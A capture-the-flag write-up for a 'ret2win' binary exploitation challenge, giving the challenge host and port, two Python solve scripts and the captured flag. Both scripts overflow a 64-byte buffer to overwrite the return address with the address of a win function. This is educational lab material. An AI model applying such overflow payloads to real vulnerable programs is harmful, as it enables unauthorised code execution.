

# ret2win (500) - pwn

Total solves - 10

Final score - 488

## Description
Win the flag!

`nc ctf.copsiitbhu.co.in 31141`

Author - kn1gh7

## Atachments
chall.py

ret2win

## Box and Port
ctf.copsiitbhu.co.in:31141

## Writeup
This challenge is somewhat an extension of `executable`. Now instead of just overwriting, you had to overwrite with a useful value (the address of the `win` function)

Following is the implementation in python3 using pwntools library:

```python
# solve.py
#! /bin/python3
from pwn import *
elf = context.binary = ELF('./ret2win')
target = remote("ctf.copsiitbhu.co.in", 31141)
target.recvline()
target.sendline(b'A'*64+pack(elf.symbols.win))
target.recvline()
print("FLAG: " + target.recvline().decode('utf-8'))
```


Following is the implementation in python2:

```python
# solve2.py
#! /bin/python2
import struct
buffer = "A"*64
payload = struct.pack("I", 0x080491a6)
print buffer+payload
```
Run `python solve2.py | nc ctf.copsiitbhu.co.in 31141`



## FLAG
COPS{y0u_w1n_7h15_fl4g}
